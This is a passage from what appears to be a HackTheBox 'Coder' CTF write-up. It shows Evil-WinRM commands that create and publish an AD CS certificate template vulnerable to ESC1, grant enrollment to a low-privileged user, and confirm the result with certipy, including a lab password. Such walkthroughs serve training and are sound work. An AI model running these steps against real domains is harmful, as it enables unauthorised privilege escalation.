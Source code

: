 I can find the exact name for the property I need to change:



    *Evil-WinRM* PS C:\programdata> $computer | get-member | findstr Name-Flag
    msPKI-Certificate-Name-Flag   NoteProperty int msPKI-Certificate-Name-Flag=402653184



I'll set that to 0x1:



    *Evil-WinRM* PS C:\programdata> $computer.'msPKI-Certificate-Name-Flag' = 0x1



Now output it to JSON and then create the template, and enroll e.black:



    *Evil-WinRM* PS C:\programdata> $computer | ConvertTo-Json | Set-Content computer-mod-esc1.json           
    *Evil-WinRM* PS C:\programdata> New-ADCSTemplate -DisplayName "0xdf-ESC1" -Publish -JSON (cat computer-mod-esc1.json -raw)
    *Evil-WinRM* PS C:\programdata> Set-ADCSTemplateACL -DisplayName "0xdf-ESC1" -type allow -identity 'coder\e.black' -enroll



If I scan Coder with `certipy` now looking for vulnerable templates
(with `-vulnerable`), this new template comes out:



    oxdf@hacky$ certipy find -u e.black -p ypOSJXPqlDOxxbQSfEERy300 -target coder.htb -text -stdout -vulnerable
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    ...[snip]...
    Certificate Templates
      0
        Template Name                       : 0xdf-ESC1
        Display Name                        : 0xdf-ESC1
        Certificate Authorities             : coder-DC01-CA
        Enabled                             : True
        Client Authentication               : True
        Enrollment Agent                    : False
        Any Purpose                         : False
        Enrollee Supplies Subject           : True
        Certificate Name Flag               : EnrolleeSuppliesSubject
        Enrollment Flag                     : AutoEnrollment
        Private Key Flag                    : AttestNone
        Extended Key Usage                  : Server Authentication
                                              Client Authentication
        Requires Manager Approval           : False
        Requires Key Archival               : False
        Authorized Signatures Required      : 0
        Validity Period                     : 1 year
        Renewal Period                      : 6 weeks
        Minimum RSA Key Length              : 2048
        Permissions
          Enrollment Permissions
            Enrollment Rights               : CODER.HTB\Erron Black
          Object Control Permissions
            Owner                           : CODER.HTB\Erron Black
            Full Control Principals         : CODER.HTB\Domain Admins
                                              CODER.HTB\Local System
                                              CODER.HTB\Enterprise Admins
            Write Owner Principals          : CODER.HTB\Domain Admins
                                              CODER.HTB\Local System
                                              CODER.HTB\Enterprise Admins
            Write Dacl Principals           : CODER.HTB\Domain Admins
                                              CODER.HTB\Local System
                                              CODER.HTB\Enterprise Admins